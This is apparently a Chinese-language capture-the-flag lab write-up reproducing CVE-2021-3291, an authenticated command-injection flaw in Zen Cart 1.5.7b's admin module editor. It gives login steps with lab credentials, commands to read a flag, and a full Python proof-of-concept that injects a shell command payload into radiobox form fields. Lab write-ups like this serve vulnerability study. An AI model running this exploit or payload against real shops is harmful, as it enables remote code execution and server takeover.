 ```yaml
---
title: CVE-2021-3291【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

Zen Cart 1.5.7b 管理员通过检查HTML radiobox元素（在模块编辑页面内），通过插入命令来执行任意命令。

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-3291)

## 2. 漏洞复现

POC：[GitHub - MucahitSaratar/zencart\_auth\_rce\_poc](https://github.com/MucahitSaratar/zencart_auth_rce_poc)

找后台并以admin登录，经测试得密码为admin888【可以自己去爆破】

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021647660.png)

登录后访问下面页面【edit】，记住该图，后面要做对比

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021648404.png)

从GitHub下载 exploit.py 后做个简单修改【登录地址】，修改 `br.open(url+"login.php")` 为 `br.open(url)`，执行脚本时用下面的命令

测试

```python
python poc.py http://eci-2zeepljj7uap05we9cda.cloudeci1.ichunqiu.com/adminlogin/  admin  admin123  "pwd"
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021723052.png)

浏览器再次访问前面的页面，效果如下

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021724980.png)

**尝试直接获取 flag**【先重置环境，再读取 flag】，也可尝试其他操作—自由发挥……

```python
python poc.py http://eci-2zeepljj7uap05we9cda.cloudeci1.ichunqiu.com/adminlogin/  admin  admin123  "cat /flag"
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021745261.png)

POC.py

```python
#!/usr/bin/python3
import mechanize as mc
import sys
import re
from bs4 import BeautifulSoup as bs
import base64 as B

try:
    url = sys.argv[1]
    assert url[-1] == "/"
    username = sys.argv[2]
    password = sys.argv[3]
    com = sys.argv[4]
except:
    print ("Usage: {sys.argv[0]} http://target.com/zencart/crackXXXXX/ username password command")
    exit(1)

moduls = ["payment","shipping","ordertotal","plugin_manager"] # default

br = mc.Browser()
br.set_handle_robots(False)
br.addheaders=[('User-agent','Chrome')]

br.open(url)

br.select_form("loginForm")
br.form["admin_name"] = username
br.form["admin_pass"] = password
send = br.submit()

mod = moduls[0]
adres = url+"index.php?cmd=modules&set="+mod
kaynak = br.open(adres).read()
adr = re.findall(b'<a href=".{150}', kaynak)
adr2 = []
for i in adr:
    if b"&amp;module=" in i and b"action=remove" not in i:
        adr2.append(i.split(b'<a href="')[1].split(b'"')[0].replace(b"&amp;",b"&").decode())

for ek in adr2:
    kaynak = br.open(ek).read()
    if b"id=\"editButton\">Edit</a>" in kaynak:
        print (f"Target url: {ek}&action=edit")
        br.open(ek+"&action=edit")
        br.select_form("modules")
        form = br.forms()[0]
        liste = b""
        for con in form.controls:
            try:
                deger = br.form.find_control(name=con.name).value
                boyut = len(deger)
                if type(deger) == list:
                    if boyut == 0 or deger[0] == "True" or deger[0] == "False":
                        liste += con.name.encode() + b"=" +  f"True','F'); echo `/bin/bash -c '{com}'`; //".encode() + b"&"
                        print("Payload injected")
                    else:
                        liste +=  con.name.encode() + b"=" + deger[0].encode() + b"&"
                else:
                    liste +=  con.name.encode() + b"=" + deger.encode() + b"&"
            except:
                pass
        print (liste[:-1])
        #br.set_proxies({"http": "localhost:5555"})
        ac = br.open(ek+"&action=save", liste[:-1])
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        break
```

